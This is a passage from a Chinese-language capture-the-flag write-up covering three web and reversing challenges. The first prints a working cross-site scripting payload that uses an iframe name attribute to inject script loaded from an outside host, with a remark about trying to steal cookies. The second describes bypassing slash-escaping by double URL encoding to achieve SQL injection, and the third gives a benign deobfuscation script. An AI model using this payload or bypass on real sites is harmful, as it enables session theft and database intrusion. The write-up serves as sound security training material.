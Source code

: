 [![](https://p4.ssl.qhimg.com/t0182970cb760f89fd1.png)](https://p4.ssl.qhimg.com/t0182970cb760f89fd1.png)

        但是想要加载远程的js时发现debug后面有长度限制,最后利用iframe标签构造了payload成功绕过限制:

```
&lt;iframe src="http://120.26.224.102:54250/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/?errmsg=a&amp;amp;t=1&amp;amp;debug=%27;$(name)//" name="&lt;img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://app.ikow.cn/1.js';&gt;"&gt;&lt;/iframe&gt;
```



        这样本地构造一个页面:

        http://app.ikow.cn/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/test.html

        其中1.js中为:

        alert(document.domain)

[![](https://p3.ssl.qhimg.com/t0118d8604b5a2e9bc2.png)](https://p3.ssl.qhimg.com/t0118d8604b5a2e9bc2.png)

        发现成功弹窗跨域。。。然后本地测试了chrome和firefox41都可以执行,但是不知道为什么打不到cookie,提交给管理,人工审核,拿到flag:

        FLAG 是 JAVASCRIPT_DRIVES_ME_CREAZY_BUT_YOU_GOODJB

**<br>**

**confused question **

        这题一开始走偏了,利用数组绕过了str_ireplace,但是addslashesForEvery一直没有绕过:

[![](https://p5.ssl.qhimg.com/t01a6d515abaab1913d.png)](https://p5.ssl.qhimg.com/t01a6d515abaab1913d.png)

        最后发现parse_str对url会传入的参数进行url decode,这样可以通过url二次编码进行绕过

**[![](https://p4.ssl.qhimg.com/t01acd7ec8ffc211f2d.png)](https://p4.ssl.qhimg.com/t01acd7ec8ffc211f2d.png)**

        最后利用了addslashesForEvery把’分割成最后username变成了,带入数据库中成功执行,返回flag:

[![](https://p2.ssl.qhimg.com/t013779d47b93e0e8a7.png)](https://p2.ssl.qhimg.com/t013779d47b93e0e8a7.png)



**COMMA WHITE**

        先解混淆。

        利用原来的两个函数E3AA318831FEAD07BA1FB034128C7D76和FFBA94F946CC5B3B3879FBEC8C8560AC生成两个表。然后两次逆向查表得到答案。



```
with open('s0') as f:
    s = f.read().strip().split('n')
with open('e3.out') as f:
    a = f.read().strip().split('n')
with open('ff.out') as f:
    b = f.read().strip().split('n')
a = [tuple(i.split(' ')) for i in a]
b = [tuple(i.split(' ')) for i in b]
a = dict(a)
b = dict(b)
result = ''
for i in s:
    x = a[i]
    if len(x) == 2:
        x = x + '=='
    else:
        x = x + '='
    result += b[x]
```